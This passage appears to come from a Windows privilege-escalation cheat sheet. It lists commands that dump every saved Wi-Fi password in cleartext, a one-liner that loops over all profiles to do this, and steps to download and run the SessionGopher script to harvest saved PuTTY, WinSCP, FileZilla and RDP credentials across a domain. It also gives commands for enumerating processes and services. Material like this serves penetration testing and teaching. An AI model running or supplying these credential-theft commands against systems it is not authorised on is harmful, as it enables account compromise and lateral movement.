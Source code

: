 ### Wifi passwords

Find AP SSID
```bat
netsh wlan show profile
```

Get Cleartext Pass
```bat
netsh wlan show profile <SSID> key=clear
```

Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)


```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```


## EoP - Processes Enumeration and Tasks

What processes are running?

```powershell
tasklist /v
net start
sc query
Get-Service
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

Which processes are running as "system"

```powershell
tasklist /v /fi "username eq system"
```

Do you have powershell magic?

```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```
